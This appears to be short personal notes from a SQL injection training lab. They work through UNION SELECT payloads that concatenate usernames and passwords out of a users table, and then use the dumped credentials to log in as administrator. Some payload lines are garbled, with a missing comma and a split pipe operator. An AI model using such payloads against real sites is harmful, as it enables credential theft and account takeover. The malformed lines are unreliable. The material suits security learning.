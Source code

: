 Suppose that a query only returns one single column
' UNION SELECT username || '~' || password FROM users--

' UNION SELECT 'username' | | 'password' FROM users--

' UNION SELECT NULL,'a',NULL--  returns error but
' UNION SELECT NULL,'a'--  returns success

so from the successful query I was able to determine that the second column does indeed expect text.
Taking from the example- we know that the second column accepts text so all we have left to do is concatenate accordingly:
category=Gifts' UNION SELECT NULLusername || '~' || password FROM users--
![[Pasted image 20211206152538.png]]

This gives us the username and password separated by a ~


double pipe sequence which is string concatenation operator on oracle. The injected query concatenates together the values of the username and pw fields separated by the ~ char.

Then we can login as the administrator accordingly.

